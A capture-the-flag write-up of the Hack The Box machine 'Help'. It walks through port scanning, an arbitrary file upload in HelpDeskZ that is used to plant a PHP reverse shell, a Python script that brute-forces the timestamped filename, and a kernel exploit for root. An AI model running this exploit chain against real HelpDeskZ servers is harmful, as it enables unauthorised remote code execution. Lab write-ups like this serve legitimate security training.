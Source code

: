 # Help - hack the box 

![EFe80A.png](https://s2.ax1x.com/2019/04/21/EFe80A.png)

## Introduction

Target: 10.10.10.121(Linux)

Kali: 10.10.16.28

To be honest, Help is not a difficult box. But there are some rabbit holes in the box. And in some case you may come across a very strange situation. May you should step back, find is there something wrong. For the priesc of root, never give up trying the most basic method.

## Infomation Enumeration

Firstly, gather open ports and services:

```
# Nmap 7.70 scan initiated Sat Apr 20 02:13:56 2019 as: nmap -sC -sV -oA services 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up (1.2s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr 20 02:14:40 2019 -- 1 IP address (1 host up) scanned in 43.61 seconds
```

The port 80 seems to be a http service. Aceess to `http://10.10.10.121`, nothing special but just the apache default web page. Try gobuster:

```
gobuster -u http://10.10.10.121 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.tx -t 50
```

We have found a folder called: `support`:

![EFeHtx.png](https://s2.ax1x.com/2019/04/21/EFeHtx.png)

The 80 seems to be help support website. We will find more later.

For the `3000` port, it seems to be a express application. And nothing found for this.

![EFeXcD.png](https://s2.ax1x.com/2019/04/21/EFeXcD.png)

## Exploitation

### http

In the above, we can see `HelpDeskZ` in the web page. It may be a knid of product. Search related exploits, `searchsploit HelpDeskZ`.

![EF0rkt.png](https://s2.ax1x.com/2019/04/21/EF0rkt.png)

There two exploits about `HelpDeskZ`. `Arbitrary File Upload` is interesting, it seems that it can be exploited with valid credentials. The payload can be seen [here](https://www.exploit-db.com/exploits/40300). It's really significant to understand the root cause of the exploit. So know the details of the payload will be benificial.

The step of exploitation is:

1. Access to `http://10.10.10.121/support/?v=submit_ticket&action=displayForm`
2. Fill out all the fields in the web page, and sumit the ticket.
3. Then run the script to exploit.

The script can be exploited, but should take case of some case. I have learned an import lesseon from this box: if you stuck in some case for a long time and has not obtained the expected result. You should step back and see if there is anything wrong.

The reason of the exploit is: when submit a ticket, the attachment will be uploaded. And the uploaded file will be named as `md5(filename+filename_time)`. The source code is as [following](https://github.com/evolutionscript/HelpDeskZ-1.0/blob/006662bb856e126a38f2bb76df44a2e4e3d37350/controllers/submit_ticket_controller.php#L140):

```php
if(!isset($error_msg) && $settings['ticket_attachment']==1){
	$uploaddir = UPLOAD_DIR.'tickets/';		
	if($_FILES['attachment']['error'] == 0){
		$ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
		$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
		$fileuploaded[] = array('name' => $_FILES['attachment']['name'], 'enc' => $filename, 'size' => formatBytes($_FILES['attachment']['size']), 'filetype' => $_FILES['attachment']['type']);
		$uploadedfile = $uploaddir.$filename;
		if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
			$show_step2 = true;
			$error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
		}else{
			$fileverification = verifyAttachment($_FILES['attachment']);
			switch($fileverification['msg_code']){
				case '1':
				$show_step2 = true;
				$error_msg = $LANG['INVALID_FILE_EXTENSION'];
				break;
				case '2':
				$show_step2 = true;
				$error_msg = $LANG['FILE_NOT_ALLOWED'];
				break;
				case '3':
				$show_step2 = true;
				$error_msg = str_replace('%size%',$fileverification['msg_extra'],$LANG['FILE_IS_BIG']);
				break;
			}
		}
}	
```

The most important code: `$filename = md5($_FILES['attachment']['name'].time()).".".$ext;`. We can found the rule of the name of the uploaded file. So it will be possile to find the uploaded attachment. And there is another stuff, when submited a reverse shell php file, you will get a hint: `File is not allowed`. However, the attachment has been uploaded. Because it will upload the attachment firstly. And then just give the error information.

![EFrlwj.png](https://s2.ax1x.com/2019/04/21/EFrlwj.png)

```php
if (!move_uploaded_file($_FILES['attachment']['tmp_name'], $uploadedfile)) {
	$show_step2 = true;
	$error_msg = $LANG['ERROR_UPLOADING_A_FILE'];
}else{
	$fileverification = verifyAttachment($_FILES['attachment']);
	switch($fileverification['msg_code']){
		case '1':
		$show_step2 = true;
		$error_msg = $LANG['INVALID_FILE_EXTENSION'];
```

Firstly, submit a ticket with the attachment of `php-reverse-shell.php` and will get error information `File is not allowed`. However, the script has been uploaded actually. 

![EFhf2j.png](https://s2.ax1x.com/2019/04/21/EFhf2j.png)

Then, try to run the script:

```
python exploit.py http://10.10.10.121/support/ a.php
```

In order to decrease the complexity of the md5 hash, the `php-reverse-shell.php` is renamed to `a.php`. However, there are two prblems so that I obtain nothing for the whole afternoon. The first problem is timezone. The uploaded filename depends on the file time. So it is impotant to keep the same timezone for the local machine and the server. We can find that the server timezone is GMT from the response header of Date. So modify the timezone of local machine:

```bash
timedatectl set-timezone GMT
```

After modify the timezone, still have not found anthing. It has some problem with the url. Read the source code and you will find the upload directory should be: `UPLOAD_DIR.'tickets/`:

![EFhSUS.png](https://s2.ax1x.com/2019/04/21/EFhSUS.png)

Hence, the url should be `http://10.10.10.121/support/uploads/tickets/`. So run the script:

`python exploit.py http://10.10.10.121/support/uploads/tickets/ a.php`

I have modified the scritp slightly for my own purpose.

```python
import hashlib
import time
import sys
import requests
print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 1500):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    print "This is the " + str(x) + " time:"
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)
    else:
        print "has tried " + url + ":" + str(response.status_code)

print "Sorry, I did not find anything"
```

Remember to set nc listen to port in the begining. After some time, the shell is returned.

![EFhlvR.png](https://s2.ax1x.com/2019/04/21/EFhlvR.png)

## Priv Esc

In contrast to the user shell, the root shell is extremely simple. But the basic method might be overlooked sometimes. Obtain root shell by kernel exploit is uncommon recently. But it never be insignificant to have a try. Obtain the kernel of the linux by `uname a`:

`Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux`

Google for `linux kernel 4.4.0--116`. Congratulations! Find the [payload](https://github.com/SecWiki/linux-kernel-exploits/tree/master/2017/CVE-2017-16995). Just download the payload and compile. After execution, the root shell is obtained.

![EF4Ezd.png](https://s2.ax1x.com/2019/04/21/EF4Ezd.png)



